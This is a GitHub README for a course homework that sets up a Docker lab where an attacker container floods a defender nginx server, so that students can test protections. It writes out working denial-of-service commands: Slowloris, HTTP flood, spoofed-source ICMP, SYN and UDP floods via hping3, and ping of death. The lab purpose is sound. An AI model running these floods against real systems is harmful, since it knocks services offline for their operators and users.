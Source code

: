# Homework #16 for Highload:Projector

### Fuck the Hack :)

Setup two docker containers:
- attacker container - there you need to write scripts that will implement 6 attacks (UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death)
- Defender container - ubuntu & nginx with simple website

Try to implement protection on Defender container

Launch attacker scripts and examine you protection


## Installation

```
git clone https://github.com/god-of-north/highload-homework-16.git
cd highload-homework-16
docker-compose build
```


## Attacker Tools

Enter to the ```attacker``` container to run attacker tools 
```
docker-compose run attacker bash
```

**Tools:**
- http-flood.sh - ***HTTP Flood***
- icmp-flood.sh - ***ICMP Flood***
- ping-of-death.sh - ***Ping of Daeth***
- set-backend.sh - ***Setting target as unprotected NGINX server***
- set-defender.sh - ***Setting target as protected NGINX server***
- slowloris.sh - ***Slowloris***
- syn-flood.sh - ***SYN Flood***
- udp-flood.sh - ***UDP Flood***


## Testing

### Slowloris
```
slowhttptest -c 2000 -H -g -o slowhttp -i 10 -r 200 -t GET -u ${TARGET_URL} -x 24 -p 3
```

### HTTP Flood
```
siege -b -c250 -t60s ${TARGET_URL}
```

### ICMP Flood
```
hping3 --flood --rand-source -1 -p ${TARGET_PORT} ${TARGET_IP}
```

### Ping of Daeth
```
fping -b 65500 ${TARGET_IP}
```

### SYN Flood
```
hping3 -c 20000 -d 120 -S -w 64 -p ${TARGET_PORT} --flood --rand-source ${TARGET_IP}
```

### UDP Flood
```
hping3 --flood --rand-source --udp -p ${TARGET_PORT} ${TARGET_IP}
```
